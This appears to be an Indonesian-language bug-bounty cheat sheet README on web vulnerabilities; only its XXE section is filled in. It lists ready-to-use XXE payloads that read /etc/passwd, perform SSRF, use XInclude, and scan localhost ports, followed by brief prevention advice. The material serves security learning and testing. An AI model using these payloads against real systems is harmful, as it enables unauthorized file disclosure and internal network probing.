 # VULNERABILITY :bug:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/89898222-85c0a500-dc0a-11ea-9eca-815238a55a38.jpg" width="500"></p>

Online resource:
- [bugbounty-cheatsheet](https://github.com/EdOverflow/bugbounty-cheatsheet) - by EdOverflow
---

## XXE
Sebelum memahami XXE, kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
- **Detection**
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML, disebut juga XML endpoint
  - Intercept web page, lalu cari web yang request header `Content-Type`-nya `text/xml` atau `application/xml`
  - Cari fitur web yang mengunakan XML, seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
- **Exploitation**
  - Retrieve Files
    - Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian !DOCTYPE
    > `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>`
  - Exploiting to perform Server Side Request Forgery (SSRF)
    - Sama seperti cara di atas. Tapi jika sebelumnya menggunakan `file`, untuk exploitasi ini menggunakan `http` dilanjutkan dengan ip server
    - `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://1”> ]>`
  - Jika tidak bisa modifikasi !DOCTYPE, gunakan `XInclude`
    - `<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
  - Test local machine port (gunakan burp intruder)
    - brute port dari ip local, lalu cek bergantian http dan https
    - `<!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">`
    - `<!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">`
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/)
    - store XML payload ke server, jika tidak punya gunakan [filebin](https://filebin.net/)
    
- **Prevention**
  - Disable DTD
  - Disable entity saja
---
## Subdomain Takeover

---
## SQL Injection

---
## XSS

